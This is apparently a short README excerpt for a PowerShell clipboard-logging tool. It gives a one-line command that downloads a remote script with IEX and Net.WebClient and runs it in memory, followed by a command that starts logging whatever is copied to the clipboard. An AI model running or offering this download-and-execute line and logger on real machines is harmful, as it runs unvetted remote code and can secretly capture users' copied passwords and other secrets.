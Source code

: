 
Capture text that has been copied to a clipboard

```bash
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

Invoke-ClipboardLogger
```